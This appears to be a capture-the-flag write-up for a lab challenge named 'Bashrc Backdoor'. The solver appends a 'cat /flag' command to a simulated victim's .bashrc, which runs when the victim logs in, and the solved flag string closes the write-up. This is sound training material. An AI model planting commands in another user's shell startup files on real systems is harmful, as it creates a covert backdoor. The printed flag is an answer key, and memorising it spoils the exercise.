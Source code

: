 ### Bashrc Backdoor

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named `zardus`, with a home directory of `/home/zardus`. You, as the `hacker` user, have write access to his `.bashrc`, and `zardus` has read-access to `/flag`. The victim is simulated by the script `/challenge/victim`, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

What I did: 
- `cd /home/zardus`
- `echo "cat /flag" >> .bashrc`
- Ran `/challenge/victim`
- This gave out the flag

flag: `pwn.college{QwsFslawFk7w03W7xwg2X-ZEvbJ.0VMzEzNxwyNwkzNyEzW}`
